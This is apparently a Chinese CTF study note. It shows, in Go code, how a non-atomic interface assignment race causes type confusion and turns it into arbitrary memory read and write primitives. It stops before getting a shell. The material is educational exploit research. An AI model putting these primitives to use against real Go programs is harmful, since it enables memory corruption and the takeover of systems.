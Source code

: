 # 2020_10_26

前两天都在打ByteCTF，这两天都在等WP(x，先看一下golang这个竞争

## golang data race
link：http://wiki.m4p1e.com/article/getById/90

问题出在`golang`的`goruntine`上，`interface`用于实现`golang`的多态。举个栗子：

```go
func main() {
    f = &ferari{oilLevel: 100}
    r = &ricksha{oilLevel: math.MaxUint32}
    confused = f
    go func() {
        var i int
        for {
            confused = f
            confused = r
            i++
            if i > 1000000 {
                break
            }
        }
    }()
    for {
        confused.OilLevel()
    }
}
```

对`confused`赋值的操作不是原子操作，所以可能会出现竞争。导致数据与方法不符的情况。这会导致这样一个严重的后果：

在`golang`中，我们无法进行任意地址的读写(如果没有unsafe)，但是考虑下面这种情况：
```go
type itf interface {
    X() bool
}

type safe struct {
    f *int
}

func (s *safe) X() bool {
    return false
}

type unsafe struct {
    f func() bool
}

func (u *unsafe) X() bool {
    if u.f != nil {
        u.f()
    }

    return false
}

var good itf
var bad itf
var confused itf

func main() {
    pp := 0x1337
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X()
    }
}
```

这样一个程序，会导致crash
```shell
$ ./test3          
unexpected fault address 0x1337
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x1 addr=0x1337 pc=0x1337]
```

那现在我们需要一个任意地址读，那么可以对程序进行如下修改
```go
package main

type itf interface {
    X(addr *uint64) bool
}

type safe struct {
    f *uint64
}

func (s *safe) X(addr *uint64) bool {
    return false
}

type unsafe struct {
    f func(addr *uint64) bool
}

func (u *unsafe) X(addr *uint64) bool {
    if u.f != nil {
        u.f(addr)
    }
    return false
}

func print(addr *uint64) bool{
	println(*addr)
	return true
}

var good itf
var bad itf
var confused itf
var print_addr uint64 = 0x452610
var num uint64 = 0xdeadbeef

func main() {
	println(print)
    pp := print_addr
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X(&num)
    }
}
```

代码中的地址均为硬编码的地址

任意写的漏洞也比较简单，我们只修改print函数

```
func print(addr *uint64) bool{
	*addr = 12345678
	println(*addr)
	return true
}
```

所以我们现在就有了任意地址读和任意地址写。接下来就是如何获取一个shell

一点了，放明天搞。
